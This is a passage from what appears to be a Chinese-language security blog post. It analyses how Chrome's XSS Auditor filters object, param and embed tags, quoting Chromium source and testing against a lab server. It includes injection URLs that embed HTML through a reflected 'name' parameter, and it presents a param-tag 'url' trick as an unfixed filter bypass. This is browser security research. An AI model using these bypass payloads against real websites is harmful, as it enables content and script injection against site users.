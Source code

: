 			http://10.129.193.58:8080/test.php?name=<object data='inject.html'></object>
			
  ![objectinject](https://wanghui0720.github.io/image/objectinject.png  "objectinject")
			
	* type属性
	  简单删除type属性
	  
	  		http://10.129.193.58:8080/test.php?name=<object type='text/html'><h1>我是注入的</h1> </object>
	  	
		这种用法chrome不适用
	* classid属性
	  简单删除classid属性
	  classid 可以是注册到本机上的，也可以通过url来标识， 所以也要过滤掉
	 
		
  object标签以上三个条件满足之一就会拦截
       
## ParamToken  
<h4 id="param">漏洞未修复</h4>

* startTag 检测 首先检测 startTag的name是否在url中
	* 必须是url param才拦截  可以看到我写的name=url 也给识别了。。
	
			bool HTMLParamElement::IsURLParameter(const String& name) {
		 	 return DeprecatedEqualIgnoringCase(name, "data") ||
			 DeprecatedEqualIgnoringCase(name, "movie") ||
			 DeprecatedEqualIgnoringCase(name, "src");
			 
	 可以看到url也可以取url的值
			 
			if (url_.IsEmpty() && (DeprecatedEqualIgnoringCase(name, "src") ||
                           DeprecatedEqualIgnoringCase(name, "movie") ||
                           DeprecatedEqualIgnoringCase(name, "code") ||
                           DeprecatedEqualIgnoringCase(name, "url"))) {
     			 url_ = StripLeadingAndTrailingHTMLSpaces(p->Value());
   			}
   
   我们构建以下url


		  http://10.129.193.58:8080/test.php?name=<object><param name='url' value='inject.html'></param></object>
			
      ![objectinject](https://wanghui0720.github.io/image/objectinject.png  "objectinject")
			
## EmbedToken
* startTag检测 首先检测 startTag的name是否在url中
	* code 属性 已经不支持了 
	
			https://html.spec.whatwg.org/#the-embed-element
			
	* src 属性 如果同源没有query不会拦截 如果不同源 或者 同源有query 会拦截
	
		同源不过滤
		
			http://10.129.193.58:8080/test.php?name=<embed src='inject.html'>
			